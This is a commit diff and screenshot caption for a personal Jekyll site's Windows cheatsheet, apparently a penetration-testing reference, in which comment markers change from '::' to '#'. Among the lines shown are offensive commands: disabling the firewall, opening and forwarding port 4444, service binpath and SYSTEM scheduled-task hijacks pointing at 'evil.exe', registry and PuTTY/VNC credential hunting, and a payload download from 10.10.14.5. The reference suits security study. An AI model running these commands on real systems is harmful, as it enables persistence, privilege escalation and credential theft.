

Before and after one commit to erik-dzibela/erik-dzibela.github.io, a Jekyll site: the page built from _cheatsheets/windows-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 5703 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Windows cheatsheet update

````diff
--- a/_cheatsheets/windows-cheatsheet.md
+++ b/_cheatsheets/windows-cheatsheet.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: "windows-cheatsheet"
+title: "windows cheatsheet"
 description: "A comprehensive Windows reference — navigation, file management, networking, users, processes, and offensive usage."
 ---
 
@@ -55,19 +55,19 @@ description: "A comprehensive Windows reference — navigation, file management,
 ## Navigation & File System
 
 ```cmd
-:: CMD — basic navigation
-cd                         :: print working directory
-cd C:\Users                :: change directory
-cd ..                      :: go up one level
-cd /                       :: go to drive root
-dir                        :: list directory contents
-dir /a                     :: show hidden files
-dir /s /b *.txt            :: recursive search for .txt files
-cls                        :: clear screen
-type file.txt              :: print file contents
-more file.txt              :: paginated view
-tree                       :: display directory tree
-tree /f                    :: include files in tree
+# CMD — basic navigation
+cd                         # print working directory
+cd C:\Users                # change directory
+cd ..                      # go up one level
+cd /                       # go to drive root
+dir                        # list directory contents
+dir /a                     # show hidden files
+dir /s /b *.txt            # recursive search for .txt files
+cls                        # clear screen
+type file.txt              # print file contents
+more file.txt              # paginated view
+tree                       # display directory tree
+tree /f                    # include files in tree
 ```
 
 ```powershell
@@ -89,19 +89,19 @@ pwd, cd, ls, cat, cp, mv, rm, mkdir
 ## File Operations
 
 ```cmd
-:: CMD
-copy file.txt C:\Temp\                    :: copy file
-copy file.txt newname.txt                 :: copy and rename
-xcopy C:\dir C:\backup /e /i /h          :: copy directory recursively
-move file.txt C:\Temp\                    :: move file
-rename file.txt newname.txt              :: rename file
-del file.txt                             :: delete file
-del /f /q file.txt                       :: force delete quietly
-rmdir dir                                :: delete empty directory
-rmdir /s /q dir                          :: delete directory recursively
-mkdir newdir                             :: create directory
-echo text > file.txt                     :: write to file (overwrite)
-echo text >> file.txt                    :: append to file
+# CMD
+copy file.txt C:\Temp\                    # copy file
+copy file.txt newname.txt                 # copy and rename
+xcopy C:\dir C:\backup /e /i /h          # copy directory recursively
+move file.txt C:\Temp\                    # move file
+rename file.txt newname.txt              # rename file
+del file.txt                             # delete file
+del /f /q file.txt                       # force delete quietly
+rmdir dir                                # delete empty directory
+rmdir /s /q dir                          # delete directory recursively
+mkdir newdir                             # create directory
+echo text > file.txt                     # write to file (overwrite)
+echo text >> file.txt                    # append to file
 ```
 
 ```powershell
@@ -125,24 +125,25 @@ Select-String "password" file.txt        # grep equivalent
 ## File Permissions & ACLs
 
 ```cmd
-:: View permissions
-icacls file.txt                          :: show ACL
-icacls C:\dir /T                         :: recursive
+# CMD
+# View permissions
+icacls file.txt                          # show ACL
+icacls C:\dir /T                         # recursive
 
-:: Modify permissions
-icacls file.txt /grant username:F        :: grant full control
-icacls file.txt /grant username:R        :: grant read
-icacls file.txt /grant username:W        :: grant write
-icacls file.txt /deny username:W         :: deny write
-icacls file.txt /remove username         :: remove user ACE
-icacls file.txt /reset                   :: reset to inherited
+# Modify permissions
+icacls file.txt /grant username:F        # grant full control
+icacls file.txt /grant username:R        # grant read
+icacls file.txt /grant username:W        # grant write
+icacls file.txt /deny username:W         # deny write
+icacls file.txt /remove username         # remove user ACE
+icacls file.txt /reset                   # reset to inherited
 
-:: Permission flags
-:: F = Full Control
-:: M = Modify
-:: RX = Read & Execute
-:: R = Read
-:: W = Write
+# Permission flags
+# F = Full Control
+# M = Modify
+# RX = Read & Execute
+# R = Read
+# W = Write
 ```
 
 ```powershell
@@ -163,21 +164,22 @@ accesschk.exe -ucqv servicename /accepteula
 ## Users & Groups
 
 ```cmd
-:: Local user management
-net user                                 :: list all local users
-net user username                        :: info about specific user
-net user username password /add         :: create user
-net user username /delete               :: delete user
-net user username * /add                :: create user, prompt for password
-net localgroup                          :: list all local groups
-net localgroup administrators           :: list members of admins group
-net localgroup administrators username /add  :: add user to admins
+# CMD
+# Local user management
+net user                                 # list all local users
+net user username                        # info about specific user
+net user username password /add         # create user
+net user username /delete               # delete user
+net user username * /add                # create user, prompt for password
+net localgroup                          # list all local groups
+net localgroup administrators           # list members of admins group
+net localgroup administrators username /add  # add user to admins
 
-:: Domain user management
-net user /domain                        :: list domain users
-net user username /domain               :: domain user info
-net group /domain                       :: list domain groups
-net group "Domain Admins" /domain       :: list Domain Admins
+# Domain user management
+net user /domain                        # list domain users
+net user username /domain               # domain user info
+net group /domain                       # list domain groups
+net group "Domain Admins" /domain       # list Domain Admins
 ```
 
 ```powershell
@@ -202,13 +204,13 @@ whoami /all                             # everything
 ## Processes
 
 ```cmd
-:: CMD
-tasklist                                 :: list running processes
-tasklist /fi "imagename eq chrome.exe"  :: filter by name
-tasklist /svc                            :: show services per process
-taskkill /pid 1234                       :: kill by PID
-taskkill /im chrome.exe                  :: kill by name
-taskkill /f /im chrome.exe              :: force kill
+# CMD
+tasklist                                 # list running processes
+tasklist /fi "imagename eq chrome.exe"  # filter by name
+tasklist /svc                            # show services per process
+taskkill /pid 1234                       # kill by PID
+taskkill /im chrome.exe                  # kill by name
+taskkill /f /im chrome.exe              # force kill
 ```
 
 ```powershell
@@ -230,32 +232,33 @@ Get-WmiObject Win32_Process | Select-Object Name,ProcessId,CommandLine
 ## Networking
 
 ```cmd
-:: Interface info
-ipconfig                                 :: basic interface info
-ipconfig /all                            :: detailed — MAC, DNS, DHCP
-ipconfig /flushdns                       :: flush DNS cache
-ipconfig /displaydns                     :: show DNS cache
+# CMD
+# Interface info
+ipconfig                                 # basic interface info
+ipconfig /all                            # detailed — MAC, DNS, DHCP
+ipconfig /flushdns                       # flush DNS cache
+ipconfig /displaydns                     # show DNS cache
 
-:: Connectivity
-ping 8.8.8.8                             :: ping
-ping -n 4 8.8.8.8                        :: ping 4 times
-tracert 8.8.8.8                          :: traceroute
-nslookup target.com                      :: DNS lookup
-nslookup target.com 8.8.8.8             :: DNS lookup via specific server
+# Connectivity
+ping 8.8.8.8                             # ping
+ping -n 4 8.8.8.8                        # ping 4 times
+tracert 8.8.8.8                          # traceroute
+nslookup target.com                      # DNS lookup
+nslookup target.com 8.8.8.8             # DNS lookup via specific server
 
-:: Connections & ports
-netstat -ano                             :: all connections with PIDs
-netstat -ano | findstr :80               :: filter by port
-netstat -ano | findstr LISTENING         :: listening ports only
-arp -a                                   :: ARP cache
+# Connections & ports
+netstat -ano                             # all connections with PIDs
+netstat -ano | findstr :80               # filter by port
+netstat -ano | findstr LISTENING         # listening ports only
+arp -a                                   # ARP cache
 
-:: Firewall
-netsh advfirewall show allprofiles       :: firewall status
-netsh advfirewall firewall show rule name=all  :: list all rules
-netsh advfirewall set allprofiles state off    :: disable firewall (requires admin)
+# Firewall
+netsh advfirewall show allprofiles       # firewall status
+netsh advfirewall firewall show rule name=all  # list all rules
+netsh advfirewall set allprofiles state off    # disable firewall (requires admin)
 netsh advfirewall firewall add rule name="Allow 4444" protocol=TCP dir=in localport=4444 action=allow
 
-:: Port forwarding
+# Port forwarding
 netsh interface portproxy add v4tov4 listenport=4444 listenaddress=0.0.0.0 connectport=4444 connectaddress=192.168.1.10
 netsh interface portproxy show all
 netsh interface portproxy delete v4tov4 listenport=4444 listenaddress=0.0.0.0
@@ -278,19 +281,19 @@ Test-Connection 8.8.8.8                  # ping equivalent
 ## Services
 
 ```cmd
-:: CMD
-sc query                                 :: list all services
-sc query servicename                     :: query specific service
-sc start servicename                     :: start service
-sc stop servicename                      :: stop service
-sc config servicename start= auto        :: set service to auto start
-sc config servicename binpath= "C:\evil.exe"  :: change service binary (privesc)
-sc create servicename binpath= "C:\evil.exe" start= auto  :: create service
-sc delete servicename                    :: delete service
+# CMD
+sc query                                 # list all services
+sc query servicename                     # query specific service
+sc start servicename                     # start service
+sc stop servicename                      # stop service
+sc config servicename start= auto        # set service to auto start
+sc config servicename binpath= "C:\evil.exe"  # change service binary (privesc)
+sc create servicename binpath= "C:\evil.exe" start= auto  # create service
+sc delete servicename                    # delete service
 
-net start                                :: list running services
-net start servicename                    :: start service
-net stop servicename                     :: stop service
+net start                                # list running services
+net start servicename                    # start service
+net stop servicename                     # stop service
 ```
 
 ```powershell
@@ -352,12 +355,12 @@ Remove-ItemProperty -Path "HKCU:\...\Run" -Name "backdoor"
 ## Scheduled Tasks
 
 ```cmd
-:: CMD
-schtasks /query /fo LIST /v              :: list all tasks verbosely
+# CMD
+schtasks /query /fo LIST /v              # list all tasks verbosely
 schtasks /query /fo LIST /v | findstr "Task Name\|Run As\|Task To Run"
-schtasks /create /tn "taskname" /tr "C:\evil.exe" /sc onlogon /ru System  :: create task
-schtasks /run /tn "taskname"             :: run task immediately
-schtasks /delete /tn "taskname" /f       :: delete task
+schtasks /create /tn "taskname" /tr "C:\evil.exe" /sc onlogon /ru System  # create task
+schtasks /run /tn "taskname"             # run task immediately
+schtasks /delete /tn "taskname" /f       # delete task
 ```
 
 ```powershell
@@ -436,19 +439,20 @@ Invoke-WebRequest -Uri http://10.10.14.5/file.exe -OutFile C:\Temp\file.exe
 ### Situational Awareness
 
 ```cmd
-:: Quick overview
-whoami /all                              :: user, groups, privileges
-systeminfo                               :: OS, patches, architecture, domain
+# CMD
+# Quick overview
+whoami /all                              # user, groups, privileges
+systeminfo                               # OS, patches, architecture, domain
 hostname
-net user %username%                      :: current user details
-net localgroup administrators            :: who has admin?
+net user %username%                      # current user details
+net localgroup administrators            # who has admin?
 
-:: Domain context
-echo %userdomain%                        :: domain name
-echo %logonserver%                       :: domain controller
-net user /domain                         :: domain users
-net group "Domain Admins" /domain        :: domain admins
-nltest /dclist:domain.local              :: list domain controllers
+# Domain context
+echo %userdomain%                        # domain name
+echo %logonserver%                       # domain controller
+net user /domain                         # domain users
+net group "Domain Admins" /domain        # domain admins
+nltest /dclist:domain.local              # list domain controllers
 ```
 
 ```powershell
@@ -493,15 +497,15 @@ type C:\Windows\system32\sysprep\sysprep.xml
 # Registry credential hunting
 reg query HKLM /f password /t REG_SZ /s
 reg query HKCU /f password /t REG_SZ /s
-reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"  :: autologon
-reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s                 :: PuTTY creds
-reg query "HKCU\Software\ORL\WinVNC3\Password"                          :: VNC creds
+reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"  # autologon
+reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s                 # PuTTY creds
+reg query "HKCU\Software\ORL\WinVNC3\Password"                          # VNC creds
 
 # PowerShell history
 type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
 
 # Saved credentials
-cmdkey /list                             :: saved Windows credentials
+cmdkey /list                             # saved Windows credentials
 ```
 
 ### Privilege Escalation Enumeration
````
Also changed, not shown: other parts of _cheatsheets/windows-cheatsheet.md (+8 -8 lines).
